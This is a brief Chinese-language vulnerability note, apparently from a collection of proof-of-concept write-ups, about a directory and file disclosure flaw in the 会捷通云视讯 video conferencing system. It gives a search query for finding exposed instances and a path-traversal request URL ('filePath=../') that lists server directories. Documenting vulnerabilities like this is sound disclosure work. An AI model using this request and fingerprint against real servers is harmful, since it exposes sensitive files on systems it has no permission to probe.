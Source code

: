 # 会捷通云视讯 list 目录文件泄露漏洞

# 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

```
会捷通云视讯
```

## 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下



![](/images/202202101859423.png)

访问Url



```plain
/him/api/rest/V1.0/system/log/list?filePath=../
```



![](/images/202202101859690.png)



## 

